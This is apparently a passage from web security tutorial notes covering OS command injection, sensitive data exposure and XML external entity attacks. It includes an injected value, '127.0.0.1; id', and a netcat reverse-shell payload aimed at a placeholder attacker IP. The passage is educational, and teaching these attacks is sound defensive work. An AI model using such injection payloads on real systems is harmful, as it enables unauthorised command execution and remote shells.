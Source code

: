 **Example**:
- Imagine a vulnerable application that has a common function that passes an **IP address from a user input** to the system's **ping command**.
- User input: `127.0.0.1`
- The following command is executed on the host OS:
  - `ping -c 5 127.0.0.1`
- Is possible to break out the ping command to execute the attacker arbitrary commands:
  - `ping -c 5 127.0.0.1; id`
- If the system is vulnerable the output will look like this (showing two OS commands, `ping` and `id`):

```console
--- 127.0.0.1 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 3999ms
rtt min/avg/max/mdev = 0.023/0.056/0.074/0.021 ms

uid=0(root) gid=0(root) groups=0(root)
```

- Without input sanitizing the attacker can do reverse shell:
   - `127.0.0.1; nc -nv <attacker's IP> 4444 -e /bin/bash`

---

### **Sensitive Data Exposure**

When the web application doesn’t adequately protect sensitive information like **session tokens, passwords, banking information, location, health data**, or any other similar crucial data whose leak can be critical for the user.

**Examples**:
1. *An application **stores credit card numbers in a database <u>without encryption</u>**. If an attacker gets access to the database through SQL injection, he could easily get the credit card numbers.*

2. **An application store passwords in the database using unsalted or simple hashes**. An attacker can expose the unsalted hashes using Rainbow Table attacks.

3. **A website that doesn’t enforce TLS or uses weak encryption.** An attacker could monitor network traffic and downgrade the connections from HTTPS to HTTP. Then, they can intercept the requests and steal the user’s session cookie

---

### **XEE - XML External  Entities**
Is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a weakly configured XML parser.**

- Attackers can supply XML files with specially crafted DOCTYPE definitions to an XML parser with a weak security configuration to perform **path traversal, port scanning, and numerous attacks, including denial of service, server-side request forgery (SSRF), or even remote code execution.**

**Example**:

- External entities can reference URIs to retrieve content from local files or network resources.
- This payload will return the content of `/etc/passwd` file on target system's OS; (for windows you could reference `file:///c:/boot.ini` )
